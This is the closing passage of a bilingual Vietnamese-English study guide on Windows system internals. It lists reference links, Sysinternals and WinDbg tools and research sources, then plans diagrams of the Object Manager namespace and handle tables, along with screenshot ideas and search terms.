- **Microsoft Learn: File System Redirector** — https://learn.microsoft.com/en-us/windows/win32/winprog64/file-system-redirector
- **Microsoft Learn: Registry Redirector** — https://learn.microsoft.com/en-us/windows/win32/winprog64/registry-redirector
- **Microsoft Learn: Debugging Techniques** — https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/
- **Microsoft Learn: Windows Error Reporting** — https://learn.microsoft.com/en-us/windows/win32/wer/windows-error-reporting

### Tools

- **Sysinternals WinObj** — https://learn.microsoft.com/en-us/sysinternals/downloads/winobj
- **Sysinternals Handle** — https://learn.microsoft.com/en-us/sysinternals/downloads/handle
- **Sysinternals Process Explorer** — https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer
- **Sysinternals Process Monitor** — https://learn.microsoft.com/en-us/sysinternals/downloads/procmon
- **WinDbg Preview** — Microsoft Store / Windows SDK
- **WinDbg Documentation** — https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/

### Research và Community Resources

- **NtApiDotNet / NtObjectManager** — James Forshaw (Google Project Zero) — .NET library for kernel object access: https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools
- **"Windows ALPC Internals"** — Alex Ionescu — foundational ALPC research
- **"WNF in Windows 10"** — Gabrielle Viala, Clément Berthaux (SSTIC 2018) — WNF internals research
- **Project Zero Issue Tracker** — https://bugs.chromium.org/p/project-zero — public security research including Windows mechanisms

---

## 18. Illustration Plan

### Diagram 1 — System Mechanism Pipeline (có trong Section 2)


Đã included trong Section 2.1 — user mode → transition → kernel → observability pipeline.

### Diagram 2 — Object Manager Namespace Tree

```
\                              (root)
├── Device\                    hardware/virtual devices
│   ├── HarddiskVolume3
│   └── NamedPipe\
├── Driver\                    driver objects
├── GLOBAL??\                  drive letter symlinks
│   ├── C: → \Device\HarddiskVolume3
│   └── PIPE → \Device\NamedPipe
├── KernelObjects\             system events
├── Sessions\
│   ├── 0\BaseNamedObjects     services namespace
│   └── 1\BaseNamedObjects     interactive user namespace
└── BaseNamedObjects\          global cross-session namespace
```

**Format:** Tree diagram with namespace paths, annotated với trust level của mỗi directory.

### Diagram 3 — Handle Table to Object Relationship

```
Process A Handle Table:          Kernel Object Space:
  0x4 → [ACCESS: QUERY] ──────→ PROCESS object (lsass)
  0x8 → [ACCESS: R/W]   ──────→ FILE object (C:\log.txt)
  0xC → [ACCESS: ALL]   ──┐
                           │
Process B Handle Table:    └──→ EVENT object (MyEvent) ←──┐
  0x8 → [ACCESS: MODIFY] ──────────────────────────────────┘
```

**Format:** Swimlane diagram — Process A | Kernel Object Space | Process B

### Diagram 4 — Telemetry Pipeline (có trong Section 9.7)

Đã included trong Section 9.7 — behavior → multiple monitoring paths → SIEM → alert.

### Screenshot Ideas

- **WinObj root namespace:** `\` directory showing top-level containers
- **WinObj `\Sessions\BaseNamedObjects`:** Session-specific objects visible
- **Process Explorer handle lower pane:** File, Section, Event, Mutant types for a process
- **handle.exe output:** Raw handle list với type và name
- **WinDbg first-chance exception output:** `sxe av` break — first-chance notification message
- **System32 vs SysWOW64 comparison:** Side-by-side Explorer view showing different executables

### Search Terms

- Windows Object Manager namespace tutorial
- Windows system service dispatcher internals
- Windows WoW64 file system redirection details
- Windows ALPC overview developer documentation
- Windows WNF Windows Notification Facility research
- Windows handle table object manager internals
- Windows first chance second chance exception debugger
- WinObj Sysinternals tutorial
- Windows kernel object reference counting
- Windows BaseNamedObjects session isolation
